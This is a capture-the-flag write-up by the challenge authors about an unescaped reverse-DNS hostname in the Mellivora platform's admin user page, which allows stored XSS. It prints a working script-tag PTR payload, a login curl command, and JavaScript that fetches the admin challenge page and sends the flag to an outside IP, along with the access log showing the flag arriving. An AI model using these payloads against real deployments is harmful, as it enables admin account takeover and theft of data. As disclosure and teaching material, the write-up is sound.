

# Grayanotoxin

Original task description:
```
Grayanotoxin
1000
Authors: Sin__, DarkyAngel

This challenge should prove very interesting:

the configuration consists of a vanilla Mellivora install from the repo (commit 0a7181250972715fe7d391bbd538eeba16a80356)
the flag is the same as the flag for the only challenge added on Mellivora, which you need to obtain
the initial setup is backed up and restored every hour
the challenge is solvable because the platform is exploitable
if you've found an exploitable bug but require some resources that might not be available on short notice due to the limited duration of the CTF, let the author know as we also have something prepared for this situation. Note that resources we will (obviously) not provide include: VPSes, CPU time, etc
the instance is running in an Alpine Linux docker environment with the following environment variables:
      MELLIVORA_CONFIG_DB_ENGINE: mysql
      MELLIVORA_CONFIG_DB_HOST: db
      MELLIVORA_CONFIG_DB_PORT: 3306
      MELLIVORA_CONFIG_DB_NAME: ******
      MELLIVORA_CONFIG_DB_USER: ******
      MELLIVORA_CONFIG_DB_PASSWORD: ******
      MELLIVORA_CONFIG_RECAPTCHA_ENABLE_PUBLIC: 'true'
      MELLIVORA_CONFIG_RECAPTCHA_PUBLIC_KEY: *****
      MELLIVORA_CONFIG_RECAPTCHA_PRIVATE_KEY: *****
      MELLIVORA_CONFIG_SITE_URL: http://52.157.103.137:13370/
      MELLIVORA_CONFIG_SITE_URL_STATIC_RESOURCES: http://52.157.103.137:13370/
Note that we didn't add a mail server to prevent spamming so you might see a few exceptions here and there.

We have also made a setup modification that prevents defacing (your exploit will work unmodified; it does not make the exploit any easier or any harder)

Go for it: http://52.157.103.137:13370/scores
```
TL;DR: https://github.com/Nakiami/mellivora/issues/123

First of all, a quick recon on "Grayanotoxin" yields the following from Wikipedia:
```
Grayanotoxins are a group of closely related neurotoxins [...]. Consumption of
the plant or any of its secondary products, including mad honey, can cause a
rare poisonous reaction called grayanotoxin poisoning, mad honey disease, honey
intoxication, or rhododendron poisoning.
```
Let's start by breaking down the description to see what info we currently have available.

1. the configuration consists of a vanilla Mellivora install from the repo (commit `0a7181250972715fe7d391bbd538eeba16a80356`)

Note that Mellivora is the scientific name of the honey badger. Putting this in context with the title, it hints at poisoning the CTF platform some how. The commit is relatively new (it was `master` at the time when the challenge was created) and the commits after it only update tests, which means it's either a 0day or something else introduced later on in the challenge.

2. the flag is the same as the flag for the single challenge added on Mellivora, which you need to obtain

The flag is a challenge itself on the platform, so we need either DB access / RCE / something else that may be introduced later on.

3. the initial setup is backed up and restored every hour

Pretty standard, reasons may vary, however one of them can be that people can break the challenge for others, or make it harder.

4. the challenge is solvable because the platform is exploitable

Okay, direct hint that it *is* indeed a 0day in Mellivora.

5. if you've found an exploitable bug but require some resources that might not be available on short notice due to the limited duration of the CTF, let the author know as we also have something prepared for this situation. Note that resources we will (obviously) not provide include: VPSes, CPU time, etc

Sounds intriguing and this will be helpful, but we'll come back to this later.

6. the instance is running in an Alpine Linux  docker environment with the following environment variables:

Pretty standard env config, captcha enabled. However, one interesting thing to note here is that *Alpine Linux docker* is mentioned, however the standard Mellivora docker-compose uses `php:7-apache`, which is based on Debian.

7. - note that we didn't add a mail server to prevent spamming so you might see a few exceptions here and there
   - we have made a setup modification that prevents defacing (your exploit will work unmodified; it does not make the exploit any easier or any harder)

Those two go hand in hand and are linked to a few exceptions that we can see when interacting with the service. Most things are read-only based on the exceptions, and "to prevent defacing" means that the exploit will eventually lead to manipulating the content (if it wasn't obvious from all the points, restricting it to RCE / XSS - admin takeover)

Recap of the things we found so far from the description: it is a 0day vulnerability of Mellivora itself, it happens in a non-standard Alpine environment, it is an RCE, XSS or something among those lines.

Here comes the tedious part - finding the vulnerability. Mellivora is open source, and the code can be analyzed by anyone. Depending on your hawk skills, the following interesting bit can be observed in the admin users layout: https://github.com/Nakiami/mellivora/blob/0a7181250972715fe7d391bbd538eeba16a80356/include/layout/user.inc.php#L302-L303

**Never trust user input**. The user's IP is being sanitized through `htmlspecialchars`, however, one line below that, the result of `gethostbyaddr` is not. `gethostbyaddr` for the uninitiated, does a reverse hostname lookup for a specified IP. This is done through PTR records in reverse-lookup zones, which can only be added by an address holder. Ah ha! This is where the "resources that might not be available on short notice" come into play. We need an IP with a PTR record as an XSS.

In order to get a custom PTR record with special characters, you would need a very permissive VPS provider, or you would need to own an IP block or know someone that does and wants to help you with this. We tried around 15 providers... Most major cloud service providers that allow setting custom PTR records restrict the format to the standard one [introduced in RFC1912](https://tools.ietf.org/html/rfc1912):

> Allowable characters in a label for a host name are only ASCII letters, digits, and the `-` character.

As a solution to make this feasible by the time the CTF ends, if you don't already have an arrangement as described, we linked the host of the docker to a DNS server where, if asked, we could add a zone entry for an IP that a team controlled (which would be the master). Next, the solver would setup a custom PTR record in their instance of the bind server and feed whatever they needed for the IP they controlled in order to obtain the XSS.

However, to prove that this can be done in the real world as well, not just with custom DNS entries, we obtained control over the PTR of an IP. At the time of writing this article (3 October 2019) the following PTR record is under our control:

```
dig @4.2.2.2 -x 93.113.125.10


; <<>> DiG 9.11.3-1ubuntu1.8-Ubuntu <<>> -x 93.113.125.10
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 31822
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 8192
;; QUESTION SECTION:
;10.125.113.93.in-addr.arpa.	IN	PTR

;; ANSWER SECTION:
10.125.113.93.in-addr.arpa. 86400 IN	PTR	<script/src=//95.179.178.59/a.js></script>.

;; Query time: 552 msec
;; SERVER: 4.2.2.2#53(4.2.2.2)
;; WHEN: Wed Oct 02 21:03:07 UTC 2019
;; MSG SIZE  rcvd: 111
```

Ok, back to our setup:




In the example above and the IPs that we were using to test the solution, `95.179.178.59` is the IP whose PTR record has an XSS payload. Which means, we need to login as a user from that IP so that it gets added to the database. This is simply done through a curl (login through the browser, log the request in the network tab, right click on it > copy as curl):

```
curl 'http://52.157.103.137:13370/actions/login' --data 'ee785dc77b7f75dd630531458c0414f1=test%40test.test&7439ebf2f34d35ab1a8dfee7ae3a77a8=testtest&action=login&redirect=%2Factions%2Fregister'
```

To replicate a real live CTF platform as close to the real thing as possible, we implemented an admin bot that logs in and starts visiting user profiles to get hooked by the XSS. The easiest way to exploit this is to set a PTR record that includes a script from somewhere else and we can modify the script directly, instead of messing with the PTR each time. The example above that we used for testing is:

```
<script/src=//95.179.178.59/a.js></script>.
```

Now the admin will get the script at `95.179.178.59/a.js` on each visit on the user's page in the admin panel. A first obvious attempt would be to extract the PHPSESSID of the admin from the cookies, however in this setup the cookie is HttpOnly and cannot be stolen.

Attempt 2. Knowing that the flag is the same flag as one of the challenges, knowing the specific challenge ID, and the details to reproduce this, it is trivial to generate a JS code that can request the challenge admin edit page and exfiltrate the flag. One example payload that does just this, and that we've used for testing the solution is the following:

```
fetch("http://52.157.103.137:13370/admin/edit_challenge.php?id=1").then(s => s.text()).then(s => {
  const flag = /PTBCTF\{[a-z0-9]+\}/g.exec(s);
  document.location = "http://159.65.92.245/flg?" + encodeURIComponent(flag);
})
```

This one simply accesses the edit challenge page, does a regex match for the flag format and sends it to the server on `159.65.92.245`, which we monitored. Lo and behold, after a few minutes we can see this in the access log:

```
52.157.103.137 - - [10/Sep/2019:11:37:42 +0000] "GET /flg?PTBCTF%7Bf924aaf0750b317ac28421a2ec784250%7D HTTP/1.1" 404 152 "http://web:13370/admin/user?id=1" "Mozilla/5.0 (X11; Linux x86_64; rv:69.0) Gecko/20100101 Firefox/69.0"
```

Note: there is a tricky part that we didn't take into consideration, which is: *why* did we use Alpine instead of the standard environment provided in the Mellivora wiki. Well, from our tests so far, the standard libc will return the IP directly instead of a reverse hostname with special chars (we did not further check if it is possible using a restricted set of special characters), rendering the exploit useless. *However* the musl libc, which is being used in Alpine Linux and other lightweight containers, will return it directly with no problems.

Final note: had we not made most things read-only in the database, the potential of the XSS would've been a direct RCE, exploited by manipulating the dynamic pages functionality and inserting custom PHP code.
